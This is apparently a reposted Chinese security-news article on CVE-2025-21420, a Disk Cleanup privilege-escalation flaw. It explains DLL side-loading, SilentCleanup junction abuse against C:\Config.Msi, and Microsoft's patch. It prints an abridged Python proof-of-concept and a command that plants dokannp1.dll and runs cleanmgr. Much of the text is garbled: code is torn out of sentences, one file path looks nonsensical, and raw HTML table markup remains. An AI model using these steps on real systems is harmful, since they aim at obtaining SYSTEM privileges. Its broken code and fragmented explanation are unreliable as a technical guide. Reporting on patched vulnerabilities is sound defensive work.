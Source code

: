 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI0NzE4ODk1Mw==&mid=2652096336&idx=2&sn=c3e591e98ec6f4b4800be540858e1ccc

#  针对 Windows 磁盘清理提升漏洞的 PoC 漏洞揭晓  
 网安百色   2025-06-17 11:31  
  
Microsoft 在 2025 年 2 月的“星期二补丁日”期间，在其 Windows 磁盘清理实用程序 （cleanmgr.exe） 中解决了一个高严重性权限提升漏洞 （CVE-2025-21420）。  
  
该漏洞在 CVSS 量表上得分为 7.8，使攻击者能够通过 DLL 旁加载和目录遍历技术以 SYSTEM 权限执行恶意代码。  
## CVE-2025-21420 的技术分析  
  
该漏洞源于 cleanmgr.exe 未能验证 DLL 加载路径和缓解符号链接攻击。  
  
关键组件包括：  
  
**1. 开发机制**  
- DLL 旁加载：攻击者在可写系统目录中植入恶意库（例如 ）。bash此命令链利用路径拦截漏洞加载未签名的 DLL。
```
dokannp1.dll
```


```
cp .\dokan1.dll C:\Users\<username>\System32\System32\System32\dokannp1.dll cleanmgr /sageset:2
```

  
- SilentCleanup 任务劫持：Windows 任务计划程序的任务（以 SYSTEM 运行）在没有适当符号链接检查的情况下删除文件夹内容。攻击者通过以下方式滥用此内容：python 通过将文件夹删除重定向到 ，攻击者触发任意文件作。
```
SilentCleanup
```


```
# Exploit script structure os.makedirs(r'C:\$Windows.~WS') os.makedirs(r'C:\ESD\Windows') open(r'C:\ESD\Windows\dummy.txt', 'w').close()
```


```
C:\Config.Msi
```

  
**2. 漏洞链**  
  
<table><thead><tr style="box-sizing: border-box;"><th style="box-sizing: border-box;padding: 2px 8px;text-align: left;border: 1px solid;word-break: break-word;"><strong msttexthash="15358161" msthash="43" style="box-sizing: border-box;font-weight: bold;"><span leaf="">修补前行为</span></strong></th><th style="box-sizing: border-box;padding: 2px 8px;text-align: left;border: 1px solid;word-break: break-word;"><strong msttexthash="17048616" msthash="44" style="box-sizing: border-box;font-weight: bold;"><span leaf="">补丁后缓解</span></strong></th></tr></thead><tbody><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid;word-break: break-word;"><section><span leaf="">符号链接没有重定向保护</span></section></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid;word-break: break-word;"><code style="box-sizing: border-box;font-family: monospace, monospace;font-size: 1em;top: -1px;border: none;background-color: rgb(241, 241, 241);padding: 2px 6px;"><span leaf="">SetProcessMitigationPolicy</span></code><font mstmutation="1" msttexthash="5080309" msthash="46" style="box-sizing: border-box;"><span leaf="">启用</span></font></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid;word-break: break-word;"><section><span leaf="">从用户路径加载不受信任的 DLL</span></section></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid;word-break: break-word;"><section><span leaf="">DLL 的严格签名验证</span></section></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid;word-break: break-word;"><section><span leaf="">通过联结删除特权文件</span></section></td><td style="box-sizing: border-box;padding: 2px 8px;border: 1px solid;word-break: break-word;"><section><span leaf="">CWE-59 通过路径规范化解决</span></section></td></tr></tbody></table>## 概念验证 （PoC） 工作流程  
  
安全研究人员使用多阶段流程演示了漏洞利用：  
1. 文件夹设置：使用虚拟文件创建嵌套目录 （） 以触发 SilentCleanup 的删除例程。
```
C:\ESD\Windows
```

  
1. 交汇点重定向：用于转换为指向 的交汇点。
```
FolderContentsDeleteToFolderDelete
```


```
C:\ESD\Windows
```


```
C:\Config.Msi
```

  
1. 权限提升：执行后清理，通过受损的 Config.Msi 目录生成 SYSTEM shell。
```
osk.exe
```

  

```
# Sample exploit script (abridged)
import os, time
os.makedirs(r'C:\$Windows.~WS', exist_ok=True)
os.makedirs(r'C:\ESD\Windows', exist_ok=True)
with open(r'C:\ESD\Windows\dummy.txt', 'w') as f: f.write('trigger')
input(&#34;Press Enter after setting up junctions...&#34;)
os.startfile(r'C:\Windows\System32\cleanmgr.exe')

```

## 缓解和补丁部署  
  
Microsoft 的 2025 年 2 月更新通过以下方式解决了该漏洞：  
- 重定向防护：阻止通过 的符号链接攻击。
```
PROCESS_MITIGATION_REDIRECTION_TRUST_POLICY
```

  
- **DLL 签名强制**  
：cleanmgr.exe 现在在加载库之前验证数字签名。  
  
**建议的作**  
：  
- 立即通过 Windows Update/WSUS 应用 KB5025321。  
  
- 审核系统目录中是否存在未经授权的 DLL（例如 ）。
```
dokannp1.dll
```

  
- 监控非标准上下文中的执行情况。
```
cleanmgr.exe
```

  
此补丁是修复 67 个漏洞的更广泛更新的一部分，包括 Windows 辅助功能驱动程序 （CVE-2025-21418） 和 NTLM （CVE-2025-21377） 中被积极利用的零日漏洞。  
  
**免责声明**  
：  
  
本公众号所载文章为本公众号原创或根据网络搜索下载编辑整理，文章版权归原作者所有，仅供读者学习、参考，禁止用于商业用途。因转载众多，无法找到真正来源，如标错来源，或对于文中所使用的图片、文字、链接中所包含的软件/资料等，如有侵权，请跟我们联系删除，谢谢！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/1QIbxKfhZo5lNbibXUkeIxDGJmD2Md5vKicbNtIkdNvibicL87FjAOqGicuxcgBuRjjolLcGDOnfhMdykXibWuH6DV1g/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
